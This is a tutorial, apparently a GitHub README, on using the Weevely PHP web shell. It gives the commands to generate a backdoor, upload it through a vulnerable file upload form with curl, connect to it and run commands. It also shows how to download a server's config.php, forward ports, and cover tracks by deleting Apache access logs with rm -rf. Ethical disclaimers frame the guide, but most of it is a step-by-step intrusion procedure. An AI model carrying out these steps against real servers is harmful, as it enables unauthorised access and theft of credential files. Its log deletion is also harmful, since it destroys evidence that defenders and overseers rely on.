 # WeevelyTutorial

---

# Mastering Weevely: A Stealthy Guide to Web Shell Exploitation

Welcome, fellow hackers and security enthusiasts! Today, we're diving deep into the shadows of web exploitation with Weevely, the stealth PHP web shell that’s like the Swiss Army knife for web-based post-exploitation. Whether you’re a seasoned pentester or just starting, this guide will arm you with the knowledge to wield Weevely effectively and ethically. 

**Disclaimer:** This article is for educational purposes only. Always obtain explicit permission before testing any systems. Unauthorized access is illegal and unethical.

## What is Weevely?

Weevely is a versatile and stealthy PHP web shell that lets you control compromised web servers. Its compact and flexible nature makes it a favorite tool for penetration testers and black hat hackers alike. By embedding a backdoor in a PHP file, you can perform a variety of tasks remotely. Think of it as your secret agent on the inside.

## Getting Started with Weevely

### **1. Setting Up Weevely**

Good news—Weevely comes pre-installed on Kali Linux! No need to clone repositories or manually install it. Just fire up your Kali VM and get ready to work.

### **2. Crafting the Perfect Backdoor**

To create a backdoor, run the following command in your terminal:

```bash
weevely generate <password> /path/to/output/weevely.php
```

Replace `<password>` with a strong, unique password and `/path/to/output/weevely.php` with your desired file path. This command creates a PHP file that will serve as your gateway into the target server.

### **3. Uploading the Backdoor**

#### **Real-World Scenario: Exploiting File Upload Vulnerabilities**

Imagine you've found a vulnerable file upload feature on a target site. This could be an admin panel or a public file upload form that doesn’t sanitize file names. Here’s how you’d upload the Weevely backdoor:

1. **Manual Upload:**

   Navigate to the upload form on the target site and upload `weevely.php`. If you’re lucky, it’ll be directly accessible from the web.

2. **Automated Upload:**

   Use command injection or other vulnerabilities to upload the file. For example:

   ```bash
   curl -F "file=@weevely.php" http://target.com/upload.php
   ```

### **4. Connecting to Your Backdoor**

Once the backdoor is live on the server, connect to it using Weevely:

```bash
weevely <password> http://target.com/path/to/weevely.php
```

Replace `<password>` and the URL with the appropriate values. This command opens an interactive shell to your compromised server.

### **5. Unleashing Weevely's Power**

Now that you’re connected, let’s explore what you can do:

#### **Real-World Scenario: Post-Exploitation and Data Harvesting**

1. **Command Execution:**

   Run commands on the target server to gather information or manipulate files:

   ```bash
   exec whoami  # Find out which user you’re running as
   exec ls -la  # List files in the current directory
   ```

2. **File Management:**

   Download sensitive files or upload new ones:

   ```bash
   download /var/www/html/config.php /tmp/config.php
   upload /tmp/new_script.php /var/www/html/new_script.php
   ```

3. **Port Forwarding:**

   Access internal services that are otherwise hidden:

   ```bash
   portfwd 8080 127.0.0.1 80  # Forward port 8080 on your local machine to port 80 on the target server
   ```

4. **Browser Interface:**

   Use the built-in browser to interact with web-based applications:

   ```bash
   browser
   ```

### **6. Cleaning Up and Covering Tracks**

To avoid detection:

1. **Remove Backdoors:**

   Delete your backdoor file from the server:

   ```bash
   delete /path/to/weevely.php
   ```

2. **Clear Logs:**

   If your engagement allows, clear logs that might show your activities:

   ```bash
   exec rm -rf /var/log/apache2/access.log
   ```

### **7. Ethical Considerations**

Remember, with great power comes great responsibility. Always:

- **Obtain Permission:** Ensure you have explicit authorization before testing systems.
- **Follow the Law:** Stay within legal boundaries and ethical guidelines.
- **Minimize Impact:** Avoid causing unnecessary disruption to systems.

## Conclusion

Weevely is a potent tool for web shell exploitation, offering a range of capabilities from simple command execution to sophisticated data harvesting. By understanding and responsibly using tools like Weevely, you can enhance your penetration testing skills and better secure web applications against real-world threats.

Happy hacking—ethically, of course!

---
